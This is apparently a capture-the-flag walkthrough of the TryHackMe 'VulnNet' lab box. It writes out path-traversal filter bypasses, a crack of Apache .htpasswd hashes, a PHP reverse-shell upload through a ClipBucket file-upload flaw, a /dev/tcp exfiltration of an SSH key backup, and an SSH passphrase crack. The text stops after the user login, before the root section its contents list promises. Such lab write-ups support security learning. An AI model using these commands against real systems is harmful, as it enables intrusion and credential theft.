#writeup #tryhackme #linux

# TryHackMe: VulnNet

> **Platform:** TryHackMe
> **Difficulty:** Medium
> **OS:** Linux
> **Target IP:** `10.114.178.12`
> **Date:** 2026-11-26

## Introduction

VulnNet is a medium Linux box that chains a client-side JS leak into a path-traversal LFI, pivots through an outdated video-sharing CMS (ClipBucket) for an unauthenticated arbitrary file upload, and finishes with a classic cron + `tar` wildcard injection for root. It's a good room for practicing filter-bypass thinking on path traversal and for internalizing why "root cron job + attacker-writable directory + unquoted `tar *`" is a privesc pattern worth recognizing on sight.

### Table of Contents
- [Scanning](#scanning)
- [Enumeration](#enumeration)
- [Gaining a Foothold](#gaining-a-foothold)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Scanning

First thing first, I started by scanning the target IP with `nmap`:

```bash
sudo nmap -A -O -sC -sV 10.114.178.12 -oN nmap.scan
```



The scan shows two open ports: `80` and `22`.

**Open ports:**

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | *(see nmap.scan — fill in the OpenSSH version string from your own output)* |
| 80   | http    | *(Apache — fill in the exact version from `-sV`; it matters later for CVE lookups)* |

> Note: I left these as placeholders rather than guessing — pull the exact banner strings from your `nmap.scan` file before publishing, since the Apache version is worth cross-referencing against known CVEs even though this box's path to root doesn't depend on it.

---

## Enumeration

### Web Enumeration

I started by enumerating port `80`, and before anything else I added `vulnnet.thm` to `/etc/hosts` as the room instructs.

Visiting `http://vulnnet.thm` shows a landing page with a few non-functional buttons, so I moved to directory fuzzing.



```bash
gobuster dir -u http://vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .js,.php,.html,.text,./ -b 302,404
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vulnnet.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,302
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              /,js,php,html,text
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 5829]
img                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/img/]
login.html           (Status: 200) [Size: 2479]
css                  (Status: 301) [Size: 308] [--> http://vulnnet.thm/css/]
js                   (Status: 301) [Size: 307] [--> http://vulnnet.thm/js/]
fonts                (Status: 301) [Size: 310] [--> http://vulnnet.thm/fonts/]
```

Nothing stood out directly — no admin panel, no obvious sensitive file. Subdomain fuzzing also came up empty, so I went back to the `js/` directory, which had directory listing enabled.



I ran both JS files through [beautifier.io](https://beautifier.io/) and found two leads: a subdomain and a parameter name hardcoded in the client-side code.





Adding the subdomain to `/etc/hosts` and visiting it hit an Apache Basic Auth prompt — a dead end for now without credentials.

Back to the second lead: the parameter looked like a file-path reference, so I tested it for path traversal.



The plain `../../../etc/passwd` payload was filtered. This is the classic sign of a naive, non-recursive string replacement — the server strips a literal `../` once and moves on, so `....//` degrades to `../` *after* the single-pass strip (`....// ` → removes `../` from the middle → leaves `../`). Switching to `....//....//....//etc/passwd` bypassed it:



With arbitrary file read, I pulled files likely to contain config or credential material: `/var/www/html/index.php` and `/etc/apache2/sites-enabled/000-default.conf`. The Apache config revealed the document root / auth config location for the subdomain found earlier.



That led me to `/etc/apache2/.htpasswd` — a flat-file credential store Apache uses for HTTP Basic Auth. Reading it gave me:



```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

This is the Basic Auth credential pair for `broadcast.vulnnet.thm`, still as a hash.

---

## Gaining a Foothold

The hash format (`$apr1$...`) is **Apache MD5 (`apr1`)**. I cracked it offline with `john`:

```bash
echo 'developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0' > hash.txt
john --format=md5crypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show --format=md5crypt hash.txt
```

With the cracked password I logged into `broadcast.vulnnet.thm`.



The site runs **ClipBucket**, an open-source video-sharing/multimedia management platform written in PHP. I confirmed the version from `/var/www/html/index.php` and found a known **unauthenticated arbitrary file upload** for it on [Exploit-DB #44250](https://www.exploit-db.com/exploits/44250).

```bash
# Grab the pentestmonkey PHP reverse shell
nano rev.php

# Upload it via the vulnerable endpoint
curl -u developers:<cracked_password> -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"

# Start a listener
nc -lnvp 4444

# Trigger the uploaded shell
http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1795722428e2f7fe.php

# Catch the shell in the listener
```



> **Caveat worth noting:** the password is redacted above (`<cracked_password>`) rather than hardcoded — worth doing in any writeup you publish publicly, even for a lab box, as a matter of habit.

### Privilege Escalation Enumeration

As `www-data`, `/home` showed another user, `server-management` — the likely owner of the user flag.

I checked web config files for reusable credentials and found a MySQL username/password, but it didn't work for anything useful. `/etc/crontab` turned out to be the real lead:



```bash
www-data@vulnnet:/var/backups$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2   * * * *	root	/var/opt/backupsrv.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```



```bash
www-data@vulnnet:/var/backups$ cat /var/opt/backupsrv.sh
#!/bin/bash

dest="/var/backups"
cd /home/server-management/Documents
backup_files="*"

day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

echo "Backing up $backup_files to $dest/$archive_file"
date
tar czf $dest/$archive_file $backup_files
echo "Backup finished"
date
ls -lh $dest
```

This script runs as `root` every 2 minutes. It `cd`s into `/home/server-management/Documents` and archives everything there with `tar czf ... *` — an unquoted glob, which is the seed of the wildcard injection I used later for root.

For now, though, the immediate win is simpler: `/var/backups` holds the *output* of these backups, and one of them — `ssh-backup.tar.gz` — looked worth pulling.

```bash
# On the target
cat ssh-backup.tar.gz > /dev/tcp/<your-ip>/<your-port>
```




```bash
# On the attacking machine
nc -lnvp <your-port> > ssh.tar.gz
gunzip ssh.tar.gz
tar -xvf ssh.tar
```

This unpacked an `id_rsa` belonging to `server-management` (it came from their home directory backup).



```bash
chmod 600 id_rsa
ssh -i id_rsa server-management@vulnnet.thm
```



The key is passphrase-protected. I cracked it offline:

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

With the passphrase recovered, I logged in as `server-management`.

